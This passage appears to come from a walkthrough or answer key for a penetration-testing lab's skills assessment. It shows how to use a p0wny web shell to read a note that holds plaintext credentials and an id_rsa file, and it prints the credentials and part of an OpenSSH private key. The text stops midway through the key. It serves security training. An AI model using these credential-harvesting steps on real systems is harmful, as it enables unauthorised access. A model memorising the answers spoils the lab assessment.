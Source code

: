 ### "Submit the credentials found in the user's home directory. (Format: user:password)"

Using the web shell from the previous question, which is inside the `webadmin` directory, students need to use `cat` on the file `for-admin-eyes-only`:

Code: shell

```shell
cat for-admin-eyes-only
```

```
p0wny@shell:/home/webadmin# cat for-admin-eyes-only

# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of :
Plain Human work!
```

From the above note, students will discover the credentials `mlefay:Plain Human work!`.

Answer: `mlefay:Plain Human work!`

# Skills Assessment

## Question 3

### "Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer."

Using the web shell from question 1 which is inside the `webadmin` directory, students need to use `cat` on the file `id_rsa` and save it inside a file within `Pwnbox`/`PMVPN`:

Code: shell

```shell
cat id_rsa
```

```
p0wny@shell:/home/webadmin# cat id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvm9BTps6LPw35+tXeFAw/WIB/ksNIvt5iN7WURdfFlcp+T3fBKZD
HaOQ1hl1+w/MnF+sO/K4DG6xdX+prGbTr/WLOoELCu+JneUZ3X8ajU/TWB3crYcniFUTgS
PupztxZpZT5UFjrOD10BSGm1HeI5m2aqcZaxvn4GtXtJTNNsgJXgftFgPQzaOP0iLU42Bn
IL/+PYNFsP4he27+1AOTNk+8UXDyNftayM/YBlTchv+QMGd9ojr0AwSJ9+eDGrF9jWWLTC
o9NgqVZO4izemWTqvTcA4pM8OYhtlrE0KqlnX4lDG93vU9CvwH+T7nG85HpH5QQ4vNl+vY
noRgGp6XIhviY+0WGkJ0alWKFSNHlB2cd8vgwmesCVUyLWAQscbcdB6074aFGgvzPs0dWl
qLyTTFACSttxC5KOP2x19f53Ut52OCG5pPZbZkQxyfG9OIx3AWUz6rGoNk/NBoPDycw6+Y
V8c1NVAJakIDRdWQ7eSYCiVDGpzk9sCvjWGVR1UrAAAFmDuKbOc7imznAAAAB3NzaC1yc2
EAAAGBAL5vQU6bOiz8N+frV3hQMP1iAf5LDSL7eYje1lEXXxZXKfk93wSmQx2jkNYZdfsP
zJxfrDvyuAxusXV/qaxm06/1izqBCwrviZ3lGd1/Go1P01gd3K2HJ4hVE4Ej7qc7cWaWU+
VBY6zg9dAUhptR3iOZtmqnGWsb5+BrV7SUzTbICV4H7RYD0M2jj9Ii1ONgZyC//j2DRbD+
IXtu/tQDkzZPvFFw8jX7WsjP2AZU3Ib/kDBnfaI69AMEiffngxqxfY1li0wqPTYKlWTuIs
3plk6r03AOKTPDmIbZaxNCqpZ1+JQxvd71PQr8B/k+5xvOR6R+UEOLzZfr2J6EYBqelyIb
4mPtFhpCdGpVihUjR5QdnHfL4MJnrAlVMi1gELHG3HQetO+GhRoL8z7NHVpai8k0xQAkrb
cQuSjj9sdfX+d1LedjghuaT2W2ZEMcnxvTiMdwFlM+qxqDZPzQaDw8nMOvmFfHNTVQCWpC
A0XVkO3kmAolQxqc5PbAr41hlUdVKwAAAAMBAAEAAAGAJ8GuTqzVfmLBgSd+wV1sfNmjNO
WSPoVloA91isRoU4+q8Z/bGWtkg6GMMUZrfRiVTOgkWveXOPE7Fx6p25Y0B34prPMXzRap
Ek+sELPiZTIPG0xQr+GRfULVqZZI0pz0Vch4h1oZZxQn/WLrny1+RMxoauerxNK0nAOM8e
RG23Lzka/x7TCqvOOyuNoQu896eDnc6BapzAOiFdTcWoLMjwAifpYn2uE42Mebf+bji0N7
```